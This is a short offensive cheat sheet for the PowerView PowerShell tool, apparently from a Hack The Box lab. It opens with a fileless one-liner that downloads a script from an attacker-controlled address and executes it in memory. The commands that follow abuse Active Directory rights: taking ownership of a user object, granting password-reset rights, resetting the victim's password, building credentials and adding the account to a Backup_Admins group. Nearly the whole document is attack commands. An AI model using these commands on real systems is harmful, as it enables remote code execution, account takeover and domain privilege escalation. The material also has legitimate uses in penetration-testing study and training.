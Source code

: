 # PowerView.ps1

## Fileless (Running PS1 without saving to disk)
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/PowerView.ps1')
```

## Take Ownership over User
- Prerequisite is to have PowerView loaded

```
Set-DomainObjectOwner -Identity Herman -OwnerIdentity Nico
```

## Reset Password
- Prerequisite is to have PowerView loaded
- Take ownership of user

```
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity Nico -Rights ResetPassword -Verbose
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
Set-DomainUserPassword Herman -AccountPassword $pass -Verbose
```

## Build New Credential
```
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\Herman', $pass)
```

## Add user to group
```
Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred
```